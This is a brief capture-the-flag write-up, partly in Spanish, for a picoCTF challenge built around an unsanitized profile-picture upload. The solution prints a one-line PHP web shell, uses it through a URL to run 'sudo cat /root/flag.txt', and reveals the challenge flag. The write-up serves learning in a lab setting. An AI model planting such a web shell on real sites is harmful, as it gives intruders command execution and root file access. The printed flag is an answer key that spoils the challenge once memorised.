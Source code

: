 #### Descripción

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.

Additional details will be available after launching your challenge instance.
###### Pistas
- File upload was not sanitized
- Whenever you get a shell on a remote machine, check `sudo -l`

#### Solución 
Para este reto lo que vemos es que es un subidor de archivos, por lo que dependeremos de un buen shell de php :
```
<? echo shell_exec($_GET['cmd'].' 2>&1'); ?>
```
para poder burlar al server y usar la terminal, con esto usamos el sudo -l para los permisos y nos dirigimos a la carpeta root con este comando `uploads/shell.php?cmd=sudo cat /root/flag.txt`
Con esto la pagina nos arroja la flag
`picoCTF{wh47_c4n_u_d0_wPHP_b42a374d}`

